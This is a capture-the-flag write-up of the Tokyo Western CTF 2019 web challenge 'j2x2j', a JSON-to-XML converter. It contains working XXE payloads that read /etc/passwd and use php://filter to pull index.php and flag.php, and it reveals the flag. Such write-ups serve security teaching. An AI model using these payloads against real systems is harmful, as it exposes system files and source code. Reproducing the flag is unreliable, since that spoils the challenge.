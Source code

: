 # Tokyo Western CTF - 2019
###### Contributed by FI

## j2x2j - 59 / Web

> http://j2x2j.chal.ctf.westerns.tokyo/

### Solution
As the title "JSON <-> XML Converter" says, it is a simple json to xml and xml to json converter.
![](https://i.imgur.com/XJKllxI.png)
So I guess it is a XXE and I test it.
```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]><root>&test;</root>
```
![](https://i.imgur.com/gxkPtYI.png)
XXE confirmed!

Let's get the source first using php filter.
```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=index.php'>]><root>&test;</root>
```
We can see the flag is at flag.php after decoding it with base64.
```
<?php
include 'flag.php';
...
```
Finally we can get the flag.

```
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY test SYSTEM 'php://filter/convert.base64-encode/resource=flag.php'>]><root>&test;</root>
```
After decoding it.
```
<?php
$flag = 'TWCTF{t1ny_XXE_st1ll_ex1sts_everywhere}';
```

### Flag
`TWCTF{t1ny_XXE_st1ll_ex1sts_everywhere}`
